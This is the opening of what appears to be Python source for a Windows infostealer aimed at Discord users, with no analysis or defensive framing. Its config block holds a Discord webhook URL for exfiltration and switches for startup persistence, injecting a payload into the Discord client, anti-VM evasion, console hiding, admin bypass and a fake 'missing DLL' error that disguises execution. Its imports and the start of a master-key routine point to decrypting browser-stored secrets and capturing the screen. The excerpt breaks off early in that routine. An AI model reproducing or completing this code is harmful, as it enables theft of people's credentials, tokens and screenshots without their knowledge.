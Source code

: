 
import os,json,shutil,base64,sqlite3,zipfile,requests,subprocess,psutil,random,ctypes,sys,re,datetime,time,traceback
from threading import Thread
from PIL import ImageGrab
from win32crypt import CryptUnprotectData
from Crypto.Cipher import AES
config = {
    ### Key:
    # Webhook: Webhook to send to discord.
    # Persist: Add to startup? (True/False, Bool)
    # Keep-Alive: Keep process running? (Will execute every hour, True/False, Bool)
    # Injection URL: Raw URL to injection payload
    # Inject: Inject payload into Discord? (True/False, Bool)
    # AntiVM: Protect against debuggers? (Recommended, True/False, Bool)
    # HideConsole: Hide the console? (Similar to PyInstallers -w/--noconsole option, but less detections, (True/False, Bool)
    # Force Admin: Bypass Admin Privileges? (May not work, True/False, Bool)
    # Black Screen: Make screen black? (True/False, Bool)
    # Error Message: Fake error text to display. (Leave Blank for None)
    'webhook': 'https://discord.com/api/webhooks/1335683531623497859/tz-guUcE10rUDt7S0WxXFrlK5OnmSwtKEB5amQFWqmm6J3fWNL8qrFJGg9umRF4WQNNF',
    'persist': False,
    'keep-alive': False,
    'injection_url': 'url to injection (raw)',
    'inject': False,
    'hideconsole': False,
    'antivm': True,
    'force_admin': False,
    'black_screen': False,
    'error': False,
    'error_message': 'This application failed to start because MSCVDLL.dll is missing.\n\nPlease download the latest version of Microsoft C++ Compiler and try again.',
}
class functions(object):
    def getHeaders(self, token:str=None, content_type="application/json") -> dict:
        headers = {"Content-Type": content_type, "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.64 Safari/537.11"}
        if token: headers.update({"Authorization": token})
        return headers
    def get_master_key(self, path) -> str:
        with open(path, "r", encoding="utf-8") as f: local_state = f.read()